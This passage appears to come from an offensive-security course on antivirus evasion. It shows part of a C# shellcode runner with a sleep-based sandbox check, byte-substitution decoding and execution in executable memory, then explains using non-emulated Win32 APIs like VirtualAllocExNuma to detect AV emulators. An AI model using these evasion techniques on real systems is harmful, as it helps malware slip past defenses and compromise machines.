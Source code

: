 ```csharp
		    Sleep(2000);
		    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
		    if(t2 < 1.5)
		    {
		        return;
		    }
		    
        // copy the encrypted shellcode
            byte[] buf = new byte[636] { 0xfe, 0x4a...};
		// decrypts the encrypted shellcode by using the substitution key of 2 and subtracts
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(((uint)buf[i] - 2) & 0xFF);
            }
            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

### **Non-emulated APIs**

Antivirus emulator engines only simulate the execution of most common executable file formats and functions. Knowing this, we can attempt to bypass detection with a function (typically a Win32 API) that is either incorrectly emulated or is not emulated at all.

In general, there are two ways of locating non-emulated APIs. The first is to reverse engineer the antivirus emulator, but due to the highly complex software, this will be very time consuming. A second, and perhaps simpler, way is to test out various APIs against the AV engine. The general concept is that when the AV emulator encounters a non-emulated API, its execution will fail. In these cases, our malicious program will have a chance to detect AV emulation by simply testing the API result and comparing it with the expected result.

For example, consider the Win32 _VirtualAllocExNuma_ API. The "Numa" suffix (which refers to a system design to optimize memory usage on multi-processor servers) makes this a relatively uncommon API.

In essence, this API allocates memory just like _VirtualAllocEx_ but it is optimized to be used with a specific CPU. Obviously, this type of optimization is not required on a standard single-CPU workstation.

> There is no "master list" for obscure APIs, but browsing APIs on MSDN and reading about their intended purposes may provide clues as to how common they may be.

Because of this, some antivirus vendors do not emulate _VirtualAllocExNuma_ and, in this case, its execution by the AV emulator will not result in a successful memory allocation.
